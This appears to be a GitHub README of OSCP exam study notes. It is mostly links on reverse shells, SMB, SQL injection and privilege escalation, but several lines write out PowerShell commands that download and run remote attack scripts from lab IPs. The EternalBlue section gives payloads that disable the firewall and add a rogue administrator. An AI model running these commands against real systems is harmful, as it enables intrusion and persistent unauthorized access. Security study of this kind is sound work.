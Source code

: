 # OSCP-NOTES
## Reverse Shell
> - https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63
> - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
> - https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
> - https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html
> - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
> - https://blog.adithyanak.com/oscp-preparation-guide/windows-reverse-shells

## Samba 
### Exploit samba without metasploit
> - https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63
> - https://redteamzone.com/EternalRed/
> - https://www.hackingtutorials.org/scanning-tutorials/scanning-for-smb-vulnerabilities-using-nmap/
> - https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
### Fix samba version
> - https://unix.stackexchange.com/questions/450986/linux-to-windows-can-list-smb-shares-but-cannot-connect 

## SQL Injection
### Mysql :
> - http://lastc0de.blogspot.com/2013/07/tutorial-sql-injection-manual.html
> - https://exploit.linuxsec.org/tutorial-sql-injection-manual/
### Oracle 
> - http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
### MSSQL
> - https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf
> - https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
> - https://bhanusnotes.blogspot.com/2019/09/sql-injection-cheat-sheet.html
## MSFVENOM cheat Sheet
> - https://book.hacktricks.xyz/shells/shells/msfvenom 
> - https://notchxor.github.io/oscp-notes/8-cheatsheets/msfvenom/
> - https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html

## File transfer cheat sheet
> - https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
> - https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
> - https://techmonger.github.io/3/linux-windows-ftp/
> - sudo impacket-smbserver -smb2support test . -> attacker machine
> - copy \\192.168.119.161\test\winPEASx86.exe winPEASx86.exe -> vitim machine 

## Powershell 
### Check powershell running on system 64 or 32 
> - [Environment]::Is64BitProcess 
### Command powershell to get reverse shell 
> - powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.119.153/Invoke-PowerShellTcp.ps1')"
> - C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.119.180/Invoke-MS16032.ps1')” -bypass executionpolicy
### POWERSHELL TO RUNNING MIMIKATZ
> - https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/
> - https://theitbros.com/managing-windows-defender-using-powershell/  

### Powershell to PE
> - Install sherlock ps1 github And run -> powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.119.180/Sherlock.ps1'); Find-AllVulns”


## Windows PE
### juice potato
> - Check juice potato work or not with command "Whoami /priv". If SeImpersonatePrivilege is enabled yes . you can exploit that.
> - powershell "IEX(New-Object Net.WebClient).downloadFile('http://192.168.119.161:8000/JuicyPotato.exe','C:\test\JuicyPotato.exe')" -bypass executionpolicy
> - Create this script to show clsid :
> - ![image](https://user-images.githubusercontent.com/26652599/139693143-5dd4ae2c-c5b3-4bc7-80df-c84236e5b88a.png)

> $ New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
> $ $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object
> $ {$_.appid -ne $null}
> $foreach($a in $CLSID)
> $ {
> $    Write-Host $a.CLSID
> $ }
> - or follow it https://medium.com/@kunalpatel920/cyberseclabs-weak-walkthrough-d66d2e47cd82 , https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html

### Windows XP SP0/SP1 Privilege Escalation to System
> - https://sohvaxus.github.io/content/winxp-sp1-privesc.html
> - check permission of all services 'accesschk.exe /accepteula -uwcqv "Authenticated Users" *'
> - Then check service running on higher privilege or not with command : Sc qc <service_name> 
> - https://payatu.com/blog/suraj/Windows-Privilege-Escalation-Guide
> - https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html

## Linux PE
> - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
> - https://gtfobins.github.io/#+sudo%20
> - https://atom.hackstreetboys.ph/linux-privilege-escalation-cron-jobs/
> - https://tryhackme.com/room/linuxprivesc
### LIST KERNEL EXPLOTATION 
> - https://github.com/anoaghost/Localroot_Compile/blob/master/README.md
### DOCKER PRIVILLAGE ESCALATION 
> - https://www.hackingarticles.in/docker-privilege-escalation/
> - ![image](https://user-images.githubusercontent.com/26652599/139695751-27ed4014-908e-4807-a3a4-9406a75981ef.png)
### UPGRADING SHELL
> - https://refabr1k.gitbook.io/oscp/privesc-linux/upgrading-shells


## EternalBlue
> - If smb has AV (anti virus or firewall active disable AV with this code : service_exec(conn, r'cmd /c netsh firewall set opmode disable') 
> - And if rdp active add user and add user to group administrator using this command :service_exec(conn, r'cmd /c net user bill pass /add')
service_exec(conn, r'cmd /c net localgroup administrators bill /add')

> - https://redteamzone.com/EternalBlue/ 
> - https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
> - https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/
> - https://root4loot.com/post/eternalblue_manual_exploit/
> - https://www.cybersecpadawan.com/2020/05/tryhackme-blue-eternalblue-exploitation.html








